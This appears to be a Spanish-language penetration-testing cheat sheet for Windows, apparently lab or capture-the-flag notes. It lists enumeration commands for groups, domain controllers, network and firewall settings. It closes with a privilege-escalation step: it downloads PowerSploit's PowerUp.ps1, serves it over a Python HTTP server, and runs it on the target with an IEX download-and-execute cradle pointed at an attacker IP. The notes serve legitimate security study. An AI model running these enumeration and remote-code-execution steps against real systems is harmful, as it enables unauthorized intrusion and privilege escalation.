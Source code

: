 
### MIS GRUPOS
```shell
whoami /groups
```

### GRUPOS LOCALES
```shell
net localgroup
```


# INFORMACIÓN DOMAIN CONTROLLER
```shell
nltest /DCLIST:DomainName

nltest /DCNAME:DomainName

nltest /DSGETDC:DomainName
```


### INFORMACIÓN SOBRE LA RED
```shell
ipconfig /all

Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address

Get-DnsClientServerAddress -AddressFamily IPv4 | ft
```

# FIREWALL
### CONFIGURACIÓN
```shell
netsh advfirewall show currentprofile
```



# SYSTEMA
### POWERUP
```shell
#POWERUP
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
#AÑADIMOS ESTA LINEA AL FINAL DEL ARCHIVO
Invoke-AllChecks

#SERVIDOR DE PYTHON
❯ sudo python3 -m http.server 80


#NOS DESCARGAMOS EL RECURSO
IEX(New-Object Net.WebClient).downloadString(\"http://10.10.16.7/PowerUp.ps1\")
#SI NO FUNCIONA
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7/PowerUp.ps1')

```

